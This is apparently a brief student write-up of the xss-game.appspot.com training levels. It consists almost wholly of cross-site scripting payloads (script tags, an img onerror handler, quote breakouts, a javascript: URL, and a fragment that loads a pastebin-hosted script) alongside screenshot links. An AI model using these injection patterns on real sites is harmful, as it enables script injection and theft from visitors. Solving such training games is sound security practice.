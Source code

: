 # Writeup xss-game.appspot.com

![](../.gitbook/assets/image%20%28256%29.png)

 &lt;script&gt;alert\('test'\);&lt;/script&gt;

![](https://telegra.ph/file/7e09bb5bce9c983973c96.png)

&lt;IMG SRC=/ onerror="alert\(паставтезочет\)"&gt;&lt;/img&gt;

![](https://telegra.ph/file/4f23b981797f19de9a853.png)

frame\#1'/&gt;'window.location='&lt;script&gt;alert\('POSTAVTE ZACHET'\);&lt;/script&gt;

![](https://telegra.ph/file/56195fb04355e144048e7.png)

timer=69'\) \|\| alert \('zachetplease

![](https://telegra.ph/file/8b03318ddbe7c8eb2f740.png)

signup?next=javascript:alert\('pfff'\)

![](https://telegra.ph/file/2d7a03cf31cfb09164930.png)

[https://xss-game.appspot.com/level6/frame\#Https://pastebin.com/raw/dhZT7Ubw](https://xss-game.appspot.com/level6/frame#Https://pastebin.com/raw/dhZT7Ubw)

![](https://telegra.ph/file/d03be6f3780679b49873f.png)

